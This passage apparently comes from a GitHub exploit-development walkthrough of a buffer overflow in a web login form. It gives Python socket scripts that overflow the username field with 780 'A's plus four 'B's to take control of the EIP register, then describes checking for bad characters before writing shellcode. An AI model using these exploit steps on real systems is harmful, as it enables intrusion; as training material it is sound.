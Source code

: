 ```

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.0.12",80))
    s.send(request)
    s.recv(1024)
    time.sleep(0.05)
```

Since we found how many bytes are necessary to cause the bufferoverflow, we can now send it plus 4 more bytes, let's send the character "B" 4 times.

```
#!/usr/bin/python
import socket

bufferOvrCode = "A" * 780 + "B" * 4
requestLenght = len(bufferOvrCode) + 23

request="POST /login HTTP/1.1\r\n"
request+="Host: 192.168.0.12\r\n"
request+="Content-Length: "+str(requestLenght)+"\r\n"
request+="Cache-Control: max-age=0\r\n"
request+="Upgrade-Insecure-Requests: 1\r\n"
request+="Origin: http://192.168.0.12\r\n"
request+="Content-Type: application/x-www-form-urlencoded\r\n"
request+="User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36\r\n"
request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
request+="Referer: http://192.168.0.12/login\r\n"
request+="Accept-Encoding: gzip, deflate, br\r\n"
request+="Accept-Language: en-US,en;q=0.9\r\n"
request+="Connection: close\r\n"
request+="\r\n"
request+="username="+bufferOvrCode+"&password=1234"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.12",80))
s.send(request)
```

If we analyze the application during the bufferoverflow on a debugger like x32dbg we can see that sending  "A" * 780 + "B" * 4 (this means A 780 times and B 4 times) will give us access to the register EIP. In the image below we can see the values "42424242" in register EIP, this is "B" 4 times like we sent in our script.

![image](https://github.com/Smarttfoxx/syncbreezeentrce/assets/140526026/7b6bc791-9422-43c1-ba7e-8020e84250ab)

We can now check for bad characters, or in other words, which characters in hexadecimal are not allowed by the application, this is important to generate our shellcode. To send them we can use the same python script used for the fuzzing but without the loop since we already know how to cause the bufferoverflow, we will send on the username field the 780 bytes + 4 bytes + a list of hexadecimal characters going from \x00 to \xff. We will send them and analyze the response on x32dgb, every character that doesn't appear is considered a bad character and we need to make notes on them.
